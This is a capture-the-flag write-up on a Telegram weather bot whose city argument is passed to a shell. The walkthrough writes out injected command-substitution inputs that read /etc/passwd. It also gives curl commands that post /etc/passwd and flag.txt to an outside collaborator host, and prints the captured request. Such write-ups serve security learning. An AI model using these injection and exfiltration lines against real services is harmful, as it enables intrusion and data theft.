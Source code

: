 # Weather

Open the provided url with Telegram. Run the `/start` command to perform a basic interaction

The response will be:

> Want to know the weather? Just type /weather followed by the city name.

The response to the `/weather` command without arguments is:

> Weather in Rzeszów: 8 °C - UVI: 2.8 - Wind: 3.09 m/s SSE - Humidity: 76% - Pressure: 1007 hPa

Lets try to pass something to the command, for example `/weather Radom`.

Now the answer is:

> Weather in Radom: 9 °C - UVI: 2.72 - Wind: 5.14 m/s S - Humidity: 70% - Pressure: 1017 hPa

What if we try something with a more complex argument? Like `/weather Łódź bałuty`:

> ERROR: Cannot fetch weather data

Looks like the command is badly implemented. How is the response even generated? Could it be a cli tool? Try to do something with the argument. We can see that running `/weather $(whoami)` results in showing output, while `/weather $(/etc/passwd)` shows an error. But `/weather $(cat /etc/passwd | cut -f 1 -d ':' | head -n1)` works fine again. 

Looks like we can use this endpoint as a remote shell, but at the same time the output will not be as good here. Why not try sending the output via curl requests?

```
/weather $(curl -d @/etc/passwd ucalk9iqbci1hzafbcgdy7j2atgk4bs0.oastify.com)
```

It works! But where is the flag? Maybe in the working directory?

```
/weather $(curl -d @flag.txt ucalk9iqbci1hzafbcgdy7j2atgk4bs0.oastify.com)
```

The flag is in the response:

```
POST / HTTP/1.1
Host: ucalk9iqbci1hzafbcgdy7j2atgk4bs0.oastify.com
User-Agent: curl/8.5.0
Accept: */*
Content-Length: 16
Content-Type: application/x-www-form-urlencoded

1753{its_raining_maaaaaannn_!}
```
Will give us the solution to this challenge
